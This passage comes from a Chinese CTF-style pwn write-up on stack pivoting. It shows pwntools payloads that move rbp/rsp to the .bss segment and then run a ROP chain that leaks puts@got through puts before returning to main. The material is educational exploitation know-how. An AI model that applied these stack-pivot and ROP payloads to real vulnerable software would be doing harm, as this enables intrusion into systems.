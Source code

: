 第二次迁移

此时我们再次输入的值是ebp的，根据小端序，ebp的值大于esp，那么我们可以按照原栈大小调整ebp

```plain
read = 0x4011EA
bss=elf.bss()+0x100
payload2 = b'a'*0x30+p64(bss+0x30)+p64(read)
```

然后分两次send输入即可

运行效果：

第一次leave

[![](assets/1705982215-a0da57b39a66abccf9988c5e569bf0a7.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240121162403-6f4ce278-b836-1.png)

第二次leave

[![](assets/1705982215-990b6b31acd8b70b8ec36b87a3796352.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240121162408-72d0f74a-b836-1.png)

可以看到rbp和rsp都被迁移到了.bss段上,此时在后面再返回一次read，我们就能发现可以直接改rbp之后的返回地址了

第三次泄露

```plain
main=0x4011BD
rdi=0x401273
puts_got=0x404018 
puts_addr=0x401060
payload3 = p64(bss+0x40)+p64(rdi)+p64(puts_got)+p64(puts_addr)+p64(main)
io.send(payload3)
```
